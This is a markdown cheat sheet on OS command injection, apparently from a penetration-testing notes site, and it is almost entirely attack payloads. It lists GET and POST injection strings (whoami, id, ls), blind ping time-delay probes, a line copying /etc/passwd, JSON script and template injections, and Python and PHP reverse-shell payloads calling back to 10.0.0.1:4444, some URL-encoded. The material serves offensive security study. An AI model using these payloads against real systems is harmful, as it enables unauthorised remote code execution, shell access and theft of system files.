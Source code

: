 ```yaml
---
title: OS Command Injection
description: 
tags:
    - Remote Code Execution
    - Reverse Shell
    - Web
refs:
date: 2023-03-03
draft: false
---
```


## GET Requests

```txt
/api/cmd/whoami
/command/whoami

/?cmd=whoami
/?cmd=;id

/?cmd=ls
/?cmd=ls ..
/?cmd=ls ../
/?cmd=ls /home
```

<br />

## POST Requests

We may be able to inject OS commands in POST data by adding pipes.  
For example, we can inject system commands.

```sh
productId=1&stockId=1|whoami
productId=1&stockId=1|id
```

### Ping

Try pinging to our local machine.

To confirm the result, start tcpdump in our local machine.

```bash
# -i: Interface e.g. eth0, tun0
sudo tcpdump -i eth0 icmp
```

Then execute ping command in POST request.

Below are examples for POST data.

```bash
file=example.jpg&filetype=png;ping+-c+1+10.0.0.1
```

### Reverse Shell

```sh
file=example.jpg&filetype=png;export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

### Blind Command Injection (Time Delay)

Use **"ping"** command to check if the website will be loaded with time delay.

```txt
name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
email=test@test.com;ping+-c+15+127.0.0.1+#&message=hello
```

If we find the command can be executed, we can execute the other commands as below.

```txt
email=test@test.com;cp+/etc/passwd+./+#&message=hello
```

### JSON Injection

```json
{ "username": "\"; pwd \"" }
{"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}
{"name": "admin", "content": "{{template: ./admin.php}}"}
```

### PHP Injection

```bash
id=$(php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");')

# URL encode
id=1$(php%20-r%20'$sock=fsockopen(%2210.0.0.1%22,4444);exec(%22/bin/sh%20-i%20%3C&3%20%3E&3%202%3E&3%22);')
id=1$(php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.0.1%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27)
id=1`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.0.1%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`
```